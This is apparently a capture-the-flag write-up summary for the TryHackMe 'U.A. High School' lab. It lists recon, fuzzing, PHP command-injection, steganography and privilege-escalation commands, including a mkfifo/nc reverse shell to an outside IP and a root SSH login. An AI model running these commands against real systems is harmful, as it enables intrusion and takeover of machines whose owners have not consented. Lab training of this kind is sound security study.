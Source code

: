 # TryHackMe-U.A. High School

**Scope:**

- PHP Remote Code Execution
- Steganography
- Initial Logic

**Keywords:**

- Brute Force for Command Execution
- Remote Code Execution
- PHP File
- Internal File Enumeration
- Steganography
- Extracting Files from Image
- Hex Manipulation
- Changing File Signature
- SSH Connection
- Script Analysis

**Main Commands:**

- `nmap -sS -sC -sV -T4 -A -O -oN nmap_results.txt -F -Pn $target_ip`
- `wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --hc 403,404,500,501,502,503 -c -t 50 'http://yueiua.thm/FUZZ'`
- `curl -iLX GET -D responseassets.txt http://yueiua.thm/assets`
- `curl -iLX GET -b 'PHPSESSID=13kse5dq2enauv9o4fl0n9ko7m' http://yueiua.thm/assets/index.php`
- `ffuf -u 'http://yueiua.thm/assets/index.php?FUZZ=id' -mc all -ic -t 100 -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -b 'PHPSESSID=13kse5dq2enauv9o4fl0n9ko7m' -fs 0`
- `curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=id'`
- `curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=id' | base64 -d`
- `curl -s 'http://yueiua.thm/assets/index.php' -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.2.37.37 11222 >/tmp/f' | base64 -d`
- `file oneforall.jpg`
- `xxd oneforall.jpg | head`
- `hexeditor -b oneforall.jpg`
- `steghide extract -sf oneforall.jpg`
- `ssh -o MACs=hmac-sha2-256 deku@yueiua.thm -p 22`
- `ssh -i /root/.ssh/id_ed25519 -o MACs=hmac-sha2-256 root@yueiua.thm -p 22`
- `mkpasswd -m md5crypt -s`

**System Commands:**

- `uname -a`
- `dpkg --version`
- `python3 -c 'import pty;pty.spawn("/bin/bash");'`
- `export TERM=xterm`
- `cat Hidden_Content/passphrase.txt | base64 -d`
- `sudo -l`
- `sudo /opt/NewComponent/feedback.sh`
